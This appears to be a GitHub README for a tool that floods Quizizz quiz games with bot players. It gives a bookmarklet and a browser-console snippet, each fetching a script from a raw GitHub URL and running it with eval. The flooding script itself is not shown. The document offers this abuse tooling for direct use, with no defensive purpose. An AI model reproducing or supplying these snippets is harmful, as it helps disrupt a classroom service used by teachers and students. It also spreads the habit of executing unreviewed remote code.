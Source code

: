 # Flood Quizizz with bots
Bookmarklet
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into bookmark bar and click it
```js
javascript:(function()%7Bfetch(%22https%3A%2F%2Fraw.githubusercontent.com%2Fseanv999%2Fquizizz-flooder%2Fmain%2Fflood.js%22)%0A.then((res)%20%3D%3E%20res.text()%0A.then((t)%20%3D%3E%20eval(t)))%7D)()%3B
```
Console
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into console
```js
fetch("https://raw.githubusercontent.com/seanv999/quizizz-flooder/main/flood.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
![image](https://user-images.githubusercontent.com/79374771/162595454-64e57d15-24de-41a5-a690-1db4ce278f60.png)
